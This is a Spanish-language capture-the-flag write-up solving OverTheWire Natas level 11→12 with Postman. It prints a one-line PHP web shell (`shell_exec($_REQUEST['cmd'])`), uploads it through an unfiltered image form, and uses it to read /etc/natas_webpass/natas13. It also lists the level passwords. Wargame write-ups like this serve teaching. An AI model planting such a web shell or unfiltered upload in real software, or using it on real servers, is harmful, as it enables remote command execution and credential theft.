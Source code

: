 ```yaml
---
title: OverTheWire - Natas 11 -> 12 (sin navegador)
layout: post
description: La resolución de Natas 11 -> 12 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información
---

> Las contraseñas cambian cada cierto tiempo, existe la posibilidad de que esta contraseña ya no sea válida

```
Username: natas12
Password: YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG
URL:      http://natas12.natas.labs.overthewire.org
```

# Solución
---

Abrimos Postman y pegamos la URL.

![](/images/images-otw-natas/natas11-12-1.png)

En la respuesta vemos un link al código fuente de la aplicación y un formulario para ingresar un archivo **.jpeg**.

![](/images/images-otw-natas/natas11-12-2.png)

Creamos un archivo php para poder inyectar código en la aplicación.

```php
<?php

echo shell_exec($_REQUEST['cmd']);

?>
```

![](/images/images-otw-natas/natas11-12-3.png)

Para poder enviar una imágen desde Postman debemos ir a la pestaña **Body** y seleccionar **form-data**.

![](/images/images-otw-natas/natas11-12-4.png)

Hacemos click en la flecha y seleccionamos **file**.

![](/images/images-otw-natas/natas11-12-5.png)

Hacemos click en el botón **Select Files** y seleccionamos nuestra archivo php.

![](/images/images-otw-natas/natas11-12-6.png)

Cambiamos el método a **POST**, le agregamos el nombre al campo donde subiremos la imagen `uploadedfile` y también agregamos un campo llamado `filename` a cualquier nombre. Lo importante del campo `filename` es que la extensión debe ser `.php` para que el servidor lo interprete como php, ya que si observamos el código fuente no encontraremos ningún filtro que nos impida subir archivos php en vez de archivos jpeg.

![](/images/images-otw-natas/natas11-12-7.png)

Una vez que hayamos subido el archivo correctamente la página nos mostrará la ruta donde se encontrará guardado nuestro archivo.

![](/images/images-otw-natas/natas11-12-8.png)

Si vamos a la ruta veremos un error.

![](/images/images-otw-natas/natas11-12-9.png)

Agregamos `?cmd=` a la URL y podremos ejecutar cualquier comando que queramos.

![](/images/images-otw-natas/natas11-12-10.png)

Ejecutamos el comando `cat /etc/natas_webpass/natas13` veremos la contraseña en la respuesta.

![](/images/images-otw-natas/natas11-12-11.png)

# Contraseña
---

`lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9`

---

## [Anterior](/level-10-11)
## [Siguiente](/level-12-13)